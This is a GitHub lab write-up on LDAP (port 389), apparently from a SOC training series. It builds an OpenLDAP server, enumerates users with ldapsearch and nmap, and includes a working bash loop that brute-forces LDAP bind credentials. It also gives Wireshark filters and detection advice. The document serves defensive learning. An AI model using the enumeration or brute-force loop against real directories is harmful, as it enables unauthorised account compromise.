




# 🗂️ LDAP — Port 389 | Practical Lab (OpenLDAP)

**Author:** Muhammad Awais Javed (Mian Awais)
**Part of:** [SOC-Journey-2026](https://github.com/awaisjaved-soc/SOC-Journey-2026)

---
## 📌 Table of Contents
- [🎯 Objective](#-objective)
- [📖 What is LDAP?](#-what-is-ldap)
- [⚙️ How It Works](#️-how-it-works)
- [🧪 Lab Environment](#-lab-environment)
- [💻 Commands Used](#-commands-used)
- [🔍 Wireshark Analysis](#-wireshark-analysis)
- [🚨 SOC Analyst Notes](#-soc-analyst-notes)
- [🛡️ MITRE ATT&CK](#️-mitre-attck)
- [📸 Screenshots](#-screenshots)
- [✅ Key Takeaways](#-key-takeaways)

---
## 🎯 Objective

- Understand what LDAP is and why every company directory runs on it
- Build a working **OpenLDAP server** from scratch on Linux
- Add real users to the directory and query them remotely with `ldapsearch`
- Capture LDAP traffic in Wireshark and see exactly what is visible on the wire
- Simulate how an attacker **enumerates users** and **brute-forces LDAP logins**

---
## 📖 What is LDAP?

**LDAP** = **Lightweight Directory Access Protocol**

Think of it as a **central phone book + identity database** for a company. It stores information about users, groups, computers, emails, and permissions — and almost every large organisation uses it (usually through **Active Directory** on Windows).

### What LDAP stores

| Attribute | Example |
|-----------|---------|
| Usernames / UIDs | `awais`, `hamza` |
| Full names | Hamza Khan, Sara Ahmed |
| Email addresses | `hamza@techcorp.local` |
| Departments & titles | Finance Manager, SOC Analyst |
| Group memberships | Who can access which files/folders |
| Password hashes | Stored in encrypted form |

### Ports

| Port | Use |
|------|-----|
| **389/TCP** | LDAP (plaintext) |
| **636/TCP** | LDAPS (LDAP over TLS — encrypted) |

### Real-life example

When you log in to your office computer, LDAP is working in the background, answering three questions:
1. Is this user real?
2. What groups is he in?
3. What files and folders can he access?

---
## ⚙️ How It Works

A normal LDAP session follows this flow:

```
[ Client ]                          [ LDAP Server :389 ]
    |                                        |
    |--- 1. BIND Request (who I am) -------->|
    |<-- 2. BIND Response (OK / failed) -----|
    |                                        |
    |--- 3. SEARCH Request (find users) ---->|
    |<-- 4. SEARCH Results (user data) ------|
    |                                        |
    |--- 5. UNBIND (disconnect) ------------>|
```

1. **Client** says: *"I am awais, give me my info"* (BIND)
2. **Server** checks the directory database
3. **Server** replies with the user details (name, email, groups…)

> ⚠️ Attackers love LDAP because they can **enumerate** (discover) usernames, groups, and computers — sometimes without even logging in.

---
## 🧪 Lab Environment

| Role | Machine | IP |
|------|---------|----|
| LDAP Server (OpenLDAP/`slapd`) | Linux | `192.168.100.91` |
| Client (attacker / admin) | Linux | `192.168.100.90` |

**Part 1 domain:** `lab.local` — **Part 2 (real-life scenario):** `techcorp.local` (TechCorp company)

---
## 💻 Commands Used

### STEP 1 — Install OpenLDAP on the server (`192.168.100.91`)

```bash
# Update the package list
sudo apt update

# Install the OpenLDAP server and client tools
sudo apt install slapd ldap-utils -y
```

During installation you are asked for:
- **Administrator password** → I set `Password123` (confirm it)

```bash
# Re-run the setup wizard if you need to change the configuration
sudo dpkg-reconfigure slapd
```

In the wizard I chose:
- *Omit OpenLDAP server configuration?* → **No**
- *DNS domain name* → `lab.local`
- *Organization name* → `Lab`
- *Administrator password* → `Password123`
- *Database backend* → **MDB**
- *Remove database when purging slapd?* → **No**

```bash
# Restart the LDAP service and confirm it is running
sudo systemctl restart slapd
sudo systemctl status slapd
```

### STEP 2 — Add sample users to the directory

```bash
# Create an LDIF file with the directory data
sudo nano /tmp/users.ldif
```

Paste this into the file:

```ldif
dn: ou=people,dc=lab,dc=local
objectClass: organizationalUnit
ou: people

dn: cn=awais,ou=people,dc=lab,dc=local
objectClass: inetOrgPerson
cn: awais
sn: Javed
uid: awais
userPassword: Password123

dn: cn=mian,ou=people,dc=lab,dc=local
objectClass: inetOrgPerson
cn: mian
sn: Awais
uid: mian
userPassword: Password123
```

```bash
# Import the users into the LDAP directory (bind as admin)
sudo ldapadd -x -D "cn=admin,dc=lab,dc=local" -W -f /tmp/users.ldif
# Enter the admin password: Password123
```
> This created two users — `awais` and `mian` — inside the directory.

### STEP 3 — Query LDAP from the client (`192.168.100.90`)

```bash
# Install the LDAP client tools on the client machine
sudo apt install ldap-utils -y

# Search the whole directory for person objects (enumeration)
ldapsearch -x -H ldap://192.168.100.91 -b "dc=lab,dc=local" "(objectclass=inetOrgPerson)"
```
> This is exactly what an attacker (or an admin) runs to discover users in the directory.

### Nmap — scan for LDAP

```bash
# Check if LDAP/LDAPS ports are open
nmap -p 389,636 192.168.100.91

# Detect the LDAP service version
nmap -sV -p 389,636 192.168.100.91
```

### Part 2 — Real-life scenario: "TechCorp Company" (`techcorp.local`)

I rebuilt the lab as a small company to make it realistic:

| Employee | UID | Title | Email | Password |
|----------|-----|-------|-------|----------|
| Hamza Khan | `hamza` | HR Manager | hamza@techcorp.local | HamzaPass123 |
| Awais Javed | `awais` | SOC Analyst | awais@techcorp.local | AwaisPass123 |
| Sara Ahmed | `sara` | Finance Manager | sara@techcorp.local | SaraPass123 |

```bash
# 1. Install the LDAP server (admin password this time: AdminPass123)
sudo apt update
sudo apt install slapd ldap-utils -y

# 2. Reconfigure it for the company domain
sudo dpkg-reconfigure slapd
# DNS domain name → techcorp.local | Organization → TechCorp
# Administrator password → AdminPass123 | Backend → MDB

# 3. Restart the service
sudo systemctl restart slapd
sudo systemctl status slapd
```

```bash
# 4. Create the company users LDIF file
sudo nano /tmp/company_users.ldif
```

```ldif
# Organizational Unit for People
dn: ou=people,dc=techcorp,dc=local
objectClass: organizationalUnit
ou: people

# HR Manager - Hamza Khan
dn: cn=Hamza Khan,ou=people,dc=techcorp,dc=local
objectClass: inetOrgPerson
cn: Hamza Khan
sn: Khan
givenName: Hamza
uid: hamza
title: HR Manager
mail: hamza@techcorp.local
userPassword: HamzaPass123

# SOC Analyst - Awais Javed
dn: cn=Awais Javed,ou=people,dc=techcorp,dc=local
objectClass: inetOrgPerson
cn: Awais Javed
sn: Javed
givenName: Awais
uid: awais
title: SOC Analyst
mail: awais@techcorp.local
userPassword: AwaisPass123

# Finance Manager - Sara Ahmed
dn: cn=Sara Ahmed,ou=people,dc=techcorp,dc=local
objectClass: inetOrgPerson
cn: Sara Ahmed
sn: Ahmed
givenName: Sara
uid: sara
title: Finance Manager
mail: sara@techcorp.local
userPassword: SaraPass123
```

```bash
# 5. Import the company users (admin password: AdminPass123)
sudo ldapadd -x -D "cn=admin,dc=techcorp,dc=local" -W -f /tmp/company_users.ldif
```

From the **client** (`192.168.100.90`):

```bash
# Install client tools
sudo apt install ldap-utils -y

# List every employee in the company
ldapsearch -x -H ldap://192.168.100.91 -b "dc=techcorp,dc=local" "(objectclass=inetOrgPerson)"

# Find one specific user
ldapsearch -x -H ldap://192.168.100.91 -b "dc=techcorp,dc=local" "(uid=awais)"

# Find everyone with "Manager" in their job title
ldapsearch -x -H ldap://192.168.100.91 -b "dc=techcorp,dc=local" "(title=*Manager*)"
```
> This is what it looks like in real life — full employee details (name, title, email) returned from one query.

### Attacker simulation — brute-forcing LDAP logins

I wrote a loop that tries username/password combinations against the LDAP server, the same way an attacker tests stolen credential lists:

```bash
# Build the username and password lists
cat > /tmp/usernames.txt << EOF
Awais Javed
Hamza Khan
Sara Ahmed
Usman Ali
Fatima Khan
EOF

cat > /tmp/passwords.txt << EOF
Password123
HamzaPass123
sara123
Usman123
FatimaCEO456
EOF
```

```bash
# Try every user/password combination against LDAP
while read user; do
  while read pass; do
    echo "Trying $user : $pass"
    ldapsearch -x -H ldap://192.168.100.91 \
      -D "cn=$user,ou=people,dc=techcorp,dc=local" \
      -w "$pass" \
      -b "dc=techcorp,dc=local" "(uid=$user)" > /dev/null 2>&1

    if [ $? -eq 0 ]; then
      echo "✅ SUCCESS → Username: $user | Password: $pass"
    fi
  done < /tmp/passwords.txt
done < /tmp/usernames.txt
```
> `ldapsearch` returns exit code `0` on a successful bind — so any `✅ SUCCESS` line means that credential pair is valid.

---
## 🔍 Wireshark Analysis

Capture on the client interface while running `ldapsearch`, then use these display filters:

```
ldap || tcp.port == 389 || tcp.port == 636
```
> Best general filter — shows all LDAP and LDAPS traffic.

```
ldap && ldap.op == 0
```
> **Bind requests** — who is trying to log in (authentication attempts).

```
ldap && ldap.op == 2
```
> **Search requests** — someone enumerating the directory.

### What to look for in the capture

| Packet | What it means |
|--------|---------------|
| **Bind Request** | A login attempt (username + password sent) |
| **Bind Response** | Success or failure — failures in bulk = brute force |
| **Search Request** | Someone querying the directory (enumeration) |
| **Search Result Entries** | User data coming back — **readable in cleartext** if LDAPS is not used |

> 🔑 Key finding: on port 389 the bind credentials and returned directory data are visible in the packets. That is why production directories must use LDAPS (636).

---
## 🚨 SOC Analyst Notes

**How attackers abuse LDAP:**
- **Enumeration** — one valid account (or anonymous bind, if misconfigured) reveals every user, group, and computer: perfect reconnaissance before password spraying or phishing.
- **Brute force** — repeated bind requests with different passwords, exactly like my loop above.
- **Credential interception** — on plaintext port 389, usernames and passwords can be sniffed off the wire.

**What to monitor / alert on:**
- A single source IP sending many LDAP **bind requests** in a short time (brute force)
- Large numbers of **search requests** spanning the whole directory tree (enumeration)
- **Anonymous binds** succeeding — this should never happen in production
- LDAP traffic on unexpected hosts (a workstation suddenly querying the directory heavily)

---
## 🛡️ MITRE ATT&CK

| Technique | ID | Relevance |
|-----------|----|-----------|
| Remote System Discovery | T1018 | Scanning for LDAP servers on port 389 |
| Account Discovery | T1087 | Enumerating users/groups via `ldapsearch` |
| Brute Force | T1110 | Password-guessing loop against LDAP binds |
| Valid Accounts | T1078 | Using one compromised credential to dump the directory |

---
## 📸 Screenshots

| Screenshot | Description |
|------------|-------------|
|  | Running `ldapsearch` against the directory and reading the results |
| .png) | Wireshark — directory data visible in cleartext packets |
| .png) | Wireshark — more cleartext LDAP traffic |
| .png) | Wireshark — cleartext LDAP traffic (continued) |
|  | The credential-guessing loop running against LDAP |
|  | Brute-force loop output (second capture) |
|  | Building the password list for the brute-force test |

---
## ✅ Key Takeaways

- LDAP (389) is the phone book of a company network — users, groups, emails, permissions.
- One query can dump the **entire employee directory**, which is why attackers enumerate it first.
- On plaintext port 389, **bind credentials and directory data are visible in Wireshark** — LDAPS (636) exists for a reason.
- Repeated bind failures from one IP = brute force; bulk search requests = enumeration — both are SIEM-worthy.
- I built the server, populated it, queried it, attacked it, and watched it all on the wire.
